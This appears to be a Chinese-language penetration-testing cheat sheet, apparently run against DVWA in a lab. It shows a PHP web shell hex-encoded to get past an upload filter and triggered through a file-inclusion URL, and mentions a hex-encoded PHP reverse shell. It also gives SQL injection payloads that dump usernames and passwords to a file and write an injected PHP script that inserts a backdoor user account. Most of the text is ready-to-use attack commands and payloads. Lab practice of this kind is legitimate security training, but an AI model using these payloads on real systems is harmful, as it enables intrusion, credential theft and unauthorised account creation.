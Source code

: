 
* 绕过 URL 过滤机制进行文件上传（十六进制编码）
``` 
root@kali:~/Desktop# cat test.php 
<?php echo shell_exec($_GET['cmd']);?>

#进行十六进制编码
root@kali:~/Desktop# cat test.php | xxd -ps | tr -d '\n'
        3c3f706870206563686f207368656c6c5f6578656328245f4745545b27636d64275d293b3f3e0a

```

``` 
#将此输出数据放在文档中保存
root@kali:~/Desktop# cat php-reverse-shell.php | xxd -ps | tr -d '\n' > phpr.txt

```

``` 
# 在 BurpSuite 中进行粘贴替换原来的 "<?php%20passthru($_GET['cmd']);%20?>"
# 前面加上 (0x)

```

``` 
#发现 a.php 已经存在
#改为 c.php
```

```
# 进行测试（十六进制编码的代码被服务器还原为正常代码）
root@metasploitable:~# cat /tmp/c.php 
<?php echo shell_exec($_GET['cmd']);?>

http://10.10.10.132/dvwa/vulnerabilities/fi/?page=/tmp/c.php&cmd=id

```

* 保存下载数据库（结合文件上传漏洞）
``` 
' union select user,password from users --+

' union select null, concat(user,0x3a,password) from users INTO OUTFILE '/tmp/a.db'--+
# 如果该网站不存在文件上传漏洞，只能使用在网页复制粘贴的方法（分批次列出数据库内容），写入的文件也无法进行访问。
```

* 在无法破解账号密码之后，可以编写插入服务器代码来增加账号密码.
``` 
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name= $_POST["first_name"]; $last_name = $_POST["last_name"]; $username =$_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo"first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username:$username<BR>"; echo "avatar: $avatar<BR>";$con=mysqli_connect("127.0.0.1","root","","dvwa"); if (mysqli_connect_errno()) { echo"Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected todatabase<BR>"; } $password = "123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Errorcreating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post"action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID"value="33"><br> <input type="text" name="first_name" value="fh"><br> <input type="text"name="last_name" value="y"><br> <input type="text" name="username" value="yfh"><br><input type="text" name="avatar" value="yfh!"><br> <input type="submit" name="submit"value="Submit Form"><br> </form>' INTO DUMPFILE '/tmp/user.php' --+

```
